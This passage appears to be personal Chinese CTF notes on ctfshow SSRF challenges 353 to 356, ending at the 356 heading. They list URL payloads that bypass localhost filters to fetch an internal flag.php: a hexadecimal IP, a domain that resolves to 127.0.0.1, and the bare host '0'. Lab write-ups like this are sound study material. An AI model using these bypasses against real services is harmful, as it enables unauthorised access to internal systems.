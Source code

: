 #### ctfshow-353

像352关进制绕过

```
url=http://0x7F000001/flag.php
```

![image-20240508224333905](D:\Infiltration\笔记\note\图片\image-20240508224333905.png)



#### ctfshow-354



过滤localhost，0，1等

![image-20240508224726151](D:\Infiltration\笔记\note\图片\image-20240508224726151.png)

###### 

###### 绑定域名

将127.0.0.1解析到域名绕过

###### sudo.cc

sudo.cc解析为127.0.0.1

```
url=http://sudo.cc/flag.php
```



![image-20240508231344649](D:\Infiltration\笔记\note\图片\image-20240508231344649.png)





##### ctfshow-355

限制域名长度

![image-20240511133915902](D:\Infiltration\笔记\note\图片\image-20240511133915902.png)

###### 0=127.0.0.1

```
url=http://0/flag.php
```



![image-20240511134015796](D:\Infiltration\笔记\note\图片\image-20240511134015796.png)





##### ctfshow-356

